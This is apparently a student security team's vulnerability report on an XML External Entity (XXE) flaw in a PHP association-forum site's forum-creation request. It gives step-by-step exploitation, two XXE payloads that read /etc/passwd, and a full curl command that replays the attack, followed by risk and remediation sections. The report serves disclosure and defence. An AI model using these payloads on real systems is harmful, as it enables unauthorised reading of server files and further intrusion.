




# Description  
The identified vulnerability is an XML External Entity (XXE) injection within the association forums creation module.
After creating an association, the user has the ability to access a dedicated space where they can create forums linked to their association. When submitting a forum creation form, the request uses an XML format to transmit the data.
However, the XML parsing on the server does not properly disable external entity resolution, thus allowing an attacker to forge a malicious XML request to access local files on the server.

# Exploitation  
To exploit this vulnerability, the user starts by creating a new association via the provided link (https://<IP>/index.php?page=association/create_association.php).
After creating the association, they access the list of associations for which they are an administrator (https://<IP>/index.php?page=association/my_associations.php). 

By clicking on the newly created association, they land on the public page of their association profile (https://<IP>/index.php?page=association/public_profile.php&uuid=f0bff852-e4c8-44bf-aba6-f79491385479), where they can click on "View Forum List" to access forum management (https://<IP>/index.php?page=volunteer/list_forum.php&uuid=f0bff852-e4c8-44bf-aba6-f79491385479).

When creating a new forum, a POST request containing an XML form is sent. By intercepting this request via a proxy (such as Burp Suite), it is possible to manually modify the XML content to insert an external entity.
A classic XXE payload is then injected, aiming to read a sensitive file such as /etc/passwd.
After sending the modified request, the server processes the XML, interprets the external entity, and injects its content into the forum description field. Returning to the forum list, one can observe that the description field displays the content of the /etc/passwd file, thereby confirming the vulnerability.

# PoC  
After creating an association and a forum normally, the forum creation POST request is intercepted.
Its standard XML content:

```<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE forum [
  <!ELEMENT forum ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<forum>
  <association_uuid>f0bff852-e4c8-44bf-aba6-f79491385479</association_uuid>
  <title>&xxe;</title>
  <description>Simple test</description>
</forum>```

is replaced with the following payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE forum [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<forum>
  <association_uuid>f0bff852-e4c8-44bf-aba6-f79491385479</association_uuid>
  <title>forumTitle</title>
  <description>&xxe;</description>
  <csrf_token>ce966eb42ced0ef3b4e63332de782b0eabab39766c1f6c8c427a6155f70fc079</csrf_token>
</forum>```


After sending this request, upon checking the forum list, we can see that the forum description contains the core content of the /etc/passwd file, demonstrating that the server has processed and included an external entity.


Here is the curl request that can be used to simulate the attack: 
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: <IP>' -H $'Content-Length: 307' -H $'Sec-Ch-Ua: \"Not/A)Brand\";v=\"8\", \"Chromium\";v=\"126\"' -H $'Sec-Ch-Ua-Platform: \"Linux\"' -H $'Accept-Language: fr-FR' -H $'Sec-Ch-Ua-Mobile: ?0' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36' -H $'Content-Type: application/xml' -H $'Accept: */*' -H $'Origin: https://<IP>' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Dest: empty' -H $'Referer: https://<IP>/index.php?page=volunteer%2Fcreate_forum.php&uuid=f0bff852-e4c8-44bf-aba6-f79491385479&csrf_token=ce966eb42ced0ef3b4e63332de782b0eabab39766c1f6c8c427a6155f70fc079' -H $'Accept-Encoding: gzip, deflate, br' -H $'Priority: u=1, i' \
    -b $'PHPSESSID=b40e027b535732ff7e99084096bdc28b' \
    --data-binary $'\x0a<?xml version=\"1.0\" encoding=\"UTF-8\"?>\x0d\x0a<!DOCTYPE forum [\x0d\x0a  <!ELEMENT forum ANY >\x0d\x0a  <!ENTITY xxe SYSTEM \"file:///etc/passwd\">\x0d\x0a]>\x0d\x0a<forum>\x0d\x0a  <association_uuid>f0bff852-e4c8-44bf-aba6-f79491385479</association_uuid>\x0d\x0a  <title>&xxe;</title>\x0d\x0a  <description>Simple test</description>\x0d\x0a</forum>\x0a            ' \
    $'https://<IP>/index.php?page=volunteer/create_forum.php'

# Risk
The XXE vulnerability allows an attacker to access sensitive server files.
Depending on the server configuration, an XXE may also allow:

- The theft of internal files (configuration, databases, application secrets),
- The triggering of SSRF (Server-Side Request Forgery) requests,
- In some cases, remote code execution if advanced interactions are possible.

In this context, the leakage of the /etc/passwd file constitutes a significant exposure of system information.

# Remediation  
It is recommended to:

- Disable external entity resolution in all XML parsers used on the server.
- Use secure XML parsers by explicitly disabling DTD (Document Type Definition) support.
- Validate and sanitize all user XML inputs before processing.
- Prefer, when possible, safer serialization formats like JSON instead of XML for user data exchange.
# Author
Mindbreakers_ESGI
